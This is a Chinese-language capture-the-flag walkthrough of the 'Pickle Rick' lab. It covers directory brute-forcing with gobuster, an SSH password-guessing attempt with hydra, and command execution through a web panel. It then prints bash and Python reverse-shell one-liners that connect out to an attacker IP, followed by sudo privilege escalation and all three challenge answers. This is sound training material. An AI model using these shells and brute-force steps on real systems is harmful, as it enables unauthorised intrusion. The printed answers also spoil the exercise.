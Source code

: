 ![](assets/web-pickle-rick/file-20241023102615.png)

# Pickle-Rick: 一个完整的挑战
这是一个CTF靶场，这个挑战需要你扮演Morty在目标主机上找到**三种成分（ingredients）** 帮助Rick
从白菜**变回人类**。

- 挑战前需要通过访问Web开始。
- 找到三种`ingredients`
## 此挑战需要回答以下问题

::: details **Task-1** 药剂的第一种成分是什么？
答案：`mr. meeseek hair`
:::
::: details **Task-2** 药剂的第二种成分是什么？
答案：`1 jerry tear`
:::
::: details **Task-3** 药剂的最后一种成分是什么？
答案：`fleeb juice`
:::

## 解题思路总结

[Rickle-Rick](assets/web-pickle-rick/Rickle-Rick.canvas)
![](assets/web-pickle-rick/file-20241024212525.png)
## 详细过程

![](assets/web-pickle-rick/file-20241023104524.png)

信息收集是渗透测试中的重要环节，我们渗透测试过程中要注意不要错误任何细节。
### 登陆web首页

登陆首页后，没有没有发现啥有用的信息，但是通过查看网页源码发现一个用户名：

![](assets/web-pickle-rick/file-20241024214839.png)

除此之外没有发现任何信息。

### 目录爆破

目录爆破是对任何web应用渗透的必须做的工作，这可以帮助你发现整个网站的路径和隐藏的文件，我在此做了多次爆破，以便收集到尽可能有用的信息：

- 目录爆破：
::: code-group
```bash [SecLists]
gobuster dir -u http://10.10.55.189  -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt 
```

```bash [dirbuser-list]
gobuster dir -u http://10.10.79.158 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
:::

- 文件爆破：
::: code-group
```bash [SecLists]
gobuster dir -u http://10.10.55.189  -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -x x php,txt,zip,html,bak
```

```bash [dirbuser-list]
gobuster dir -u http://10.10.79.158 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,zip,html,bak
```
:::

>[!TIP] 注意⚠️
>
>如果在此没得到什么有用的信息，可能是你的字典选择错误，选对字典对我们获取有用的信息非常重要。我渗透的时候因为选错字典走了弯路。

**目录爆破结果**

目录爆破结果，因首先关注状态码为`200`的，其次关注状态码为`300` 的

```sh{5-8} [text]
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/login.php (Status: 200)
/portal.php (Status: 200)
/server-status (Status: 403)
```
### 端口扫描

通过`nmap`端口扫描，发现此主机开启了TCP`80`、`22`端口，尝试爆破22端口，**未成功**。

```bash
hydra -l R1ckRul3s -P /usr/share//usr/share/wordlists
/rockyou.txt  ssh://10.10.204.241
```

>[!NOTE]
>之所以在此尝试爆破`ssh`密码,是因为我在目录爆破时选错字典，导致未发现有用信息😭。但是一般情况，爆破`ssh` 密码很难做到不是第一选择。

### 登陆Web应用

回到目录爆破结果，
```sh{5-8} [text]
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/login.php (Status: 200)
/portal.php (Status: 200)
/server-status (Status: 403)
```

我们首先关注`login.php` 因为这一般是登陆界面：

![](assets/web-pickle-rick/file-20241024222954.png)


其次我们关注`/robots.txt`在`/robots`中发现了一串字符串 `Wubbalubbadubdub`**（“robots.txt”文件通常包含Web开发人员不希望搜索引擎找到和显示的目录）,**

到现在我们已知了用户密码，也找到了登陆界面，因此我们应该尝试登陆：
- 用户名：`R1ckRul3s`
- 密码：`Wubbalubbadubdub`
输入勇猛密码后我们来到了`Command Panel` 命令行页面：
![](assets/web-pickle-rick/file-20241023120401.png)


### 尝试执行命令并获取第一种成分

在命令航执行命令：
```bahs
whoami && pwd && ls
```

我们知道当前用户是`www-data`,当前路径是`/var/www/html`还可以发现一些目录爆破没有发现的文件：
![](assets/web-pickle-rick/file-20241023120724.png)

我们尝试访问这些文件，可以发现一些提示，最终在文件命最长的文件中找到第一种成分。
![](assets/web-pickle-rick/file-20241023123436.png)

![](assets/web-pickle-rick/file-20241023123742.png)
### 尝试进行shell反弹

既然可以在web上执行命令，那就可以尝试进行shell 反弹，通过终端远程连接到主机，尝试 执`nc`，界面无反应，尝试执行`python python --version` 有反应。再此我们可以选择两种方式（除nc外）进行反弹：

```sh [bash]
bash -C 'bash -i >& /dev/tcp/**Local-IP**/443 0>&1 '
```

```sh [python]
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`
```

>[!IMPORTANT] Localhost
>本地主机一定要监听与上面命令内容一致的端口，在此监听的是`443`
>`nc -nvlp 443`
>

### 获取第二种成分

成功连接终端后，我们可以执行`cd`命令跳转到`/home`下，或直接执行`ls /home`  命令，在此会发现在`rick`用户目录。跳转到该目录下，会发现`second  ingredients` 文件，使用`cat`命令查看此文件会发现第二种成分。

```bash
cat /home/rick/second\ ingredients # or  cat /home/rick/‘second ingredients‘

1 jerry tear
```

### 提权并获得第三种成分

目前已获取到两种成分，只要获取到剩下的最后一种成分，就可以答完提名，目前我们可以从整个答题过程感受到，这是一个逐渐突破边界，并获取更高权限的过程，因此我们接下来应该获取到`root`权限。

要获取`root`权限，我们通常要不断尝试才可能成功，在这里我从最好用最常见的开始尝试，直接查看当前用户的`sudo`权限配置:

```bash
sudo -l
```

发现此用户执行`sudo` 不需要密码，因此可以直接通过`sudo`命令提权：

![](assets/web-pickle-rick/file-20241024231405.png)

::: code-group
```bash [命令1] 
sudo bash -p  
```

```bash [命令2]
sudo bash 
```

:::

到此，我们通过`whoami` 命令查看，可知我们目前已获取到`root`权限，让我们跳转到`/root`下，找到`3rd.txt`文件，`cat` 命令查看该文件，获取第三种成分：`fleeb juice`
![](assets/web-pickle-rick/file-20241024231619.png)


## 总结

通过本次挑战复习了以下知识点和技能：
- 渗透测试的思维方式
- gobuser 目录爆破仅能
- 目标主机无`nc`情况下的shell反弹
- linux提权
- `robots.txt` 目录的做用













